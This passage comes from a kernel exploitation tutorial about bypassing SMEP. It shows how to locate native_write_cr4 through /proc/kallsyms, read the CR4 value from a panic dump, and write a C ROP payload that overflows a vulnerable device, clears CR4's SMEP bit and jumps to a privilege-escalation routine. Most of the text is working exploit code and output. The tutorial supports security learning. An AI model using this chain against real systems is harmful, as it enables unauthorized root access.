 The same as `commit_creds()` and `prepare_kernel_cred()`, we can find the address of that function by reading `/proc/kallsyms`:

```
cat /proc/kallsyms | grep native_write_cr4
-> ffffffff814443e0 T native_write_cr4


```

Important Note

_For all the exploitation that I will introduce in this post, I will only explain the parts that are different from `ret2usr`. The parts that are exactly the same as the previous post are: **saving the state, opening the device, and leaking stack cookie.**_

The way we build a ROP chain in the kernel is exactly the same as in userland. So here, instead of immediately return into our userland code, we will return into `native_write_cr4(value)`, then return to our privileges escalation code. For the current value of `CR4`, we can get it by either causing a kernel panic and it will be dumped out (or attaching a debugger to the kernel)

```
[    3.794861] CR2: 0000000000401fd9 CR3: 000000000657c000 CR4: 00000000001006f0


```

We will clear the 20th bit, which is at the position of `0x100000`, our `value` will be `0x6f0`. Our payload will be as follow:

```
unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long native_write_cr4 = 0xffffffff814443e0;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x6f0;
    payload[off++] = native_write_cr4; // native_write_cr4(0x6f0), effectively clear the 20th bit
    payload[off++] = (unsigned long)escalate_privs;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}


```
